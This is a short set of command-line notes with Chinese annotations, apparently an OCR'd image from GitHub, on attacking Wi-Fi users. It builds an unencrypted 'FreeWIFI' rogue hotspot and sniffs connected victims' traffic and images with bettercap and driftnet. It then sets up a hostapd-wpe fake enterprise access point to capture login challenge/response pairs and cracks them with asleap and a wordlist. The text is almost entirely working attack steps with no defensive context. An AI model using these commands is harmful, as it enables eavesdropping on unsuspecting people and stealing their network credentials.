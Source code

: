 #### Hostapd
	>apt install hostapd dnsmasq
	>cd /etc/hostapd
	>vim open.conf 创建无加密热点
	Interface=wlan1
	Ssid=FreeWIFI
	Driver=nl80211
	Channel=1
	Hw_mode=g
	
	>vim /etc/dnsmasq.conf
	Dhcp-range=10.0.0.1, 10.0.0.255,12h
	Interface=wlan1
	
	>systemctl restart dnsmasq
	消除网卡限制
	>nmcli radio wifi off
	>rfkill unblock wlan
	>ifconfig wlan1 10.0.0.1/24
	>hostapd open.conf
	嗅探
	>sysctl –w net.ipv4.ip_forward=1
	>iptables –t nat –A POSTROUTING –o 网卡 –j MASQUERADE
	>bettercap –iface wlan1
	>net.show
	>net.sniff on
	>driftnet –i wlan1
#### Hostapd-wpe
	>apt install hostapd-wpe
	>vim /etc/hostapd-wpe/hostapd-wpe.conf
	配置interface=wlan1
	Ssid=
	Channel=
	证书修改
	>cd /etc/hostapd-wpe/certs/
	文件ca.cnf server.cnf client.cnf
	修改countrName stateOrProvinceName localityName …….
	>rm –rf *.pem *.der *.csr *.crt *.key *.p12 serial* index.txt*
	>make clean
	>./bootstrap
	>make install
	执行创建热点
	>hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
	获取到密码时使用asleep破解
	>asleap –C Challenge值 –R response值 –W 字典文件